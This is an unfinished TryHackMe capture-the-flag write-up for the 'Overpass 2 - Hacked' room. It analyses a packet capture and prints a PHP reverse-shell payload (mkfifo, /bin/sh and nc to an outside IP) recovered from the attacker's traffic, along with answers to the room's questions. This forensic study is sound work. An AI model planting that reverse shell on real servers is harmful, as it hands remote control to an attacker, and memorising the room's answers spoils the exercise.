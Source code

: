 # Overpass 2 - Hacked

- [Tools](#tools)
- [Forensics - Analyse the PCAP](#forensics---analyse-the-pcap)
- [Research - Analyse the code](#research---analyse-the-code)
- [Attack - Get back in!](#attack---get-back-in)

Room Link: https://tryhackme.com/room/overpass2hacked

## Tools 

1. 

##  Forensics - Analyse the PCAP

1. Download `overpass2.pcapng`.
2. Check and match `md5sum` of the file to verify file.
```bash
md5sum overpass2.pcapng 
11c3b2e9221865580295bc662c35c6dc  overpass2.pcapng
```
3. We can use `wireshark` and `follow TCP streams` of suspicious streams. But, I used `strings overpass2.pcapng`.
4. With strings we can see everything in plaintext. There is a request to link on directory `/development/upload.php`.
5. Question `What was the URL of the page they used to upload a reverse shell?` Answer `/development/`.
6. With same method we can get the payload `<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>`. You can check it by scrolling or simply use `strings overpass2.pcapng |grep "php exec"`
7. Question `What payload did the attacker use to gain access?` Answer `exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")`.
8. Question `What password did the attacker use to privesc?` Password `whene************tant`. You can manually scan strings result to see the password.
9. 


## Research - Analyse the code

## Attack - Get back in!


Author: Zishan Ahamed Thandar
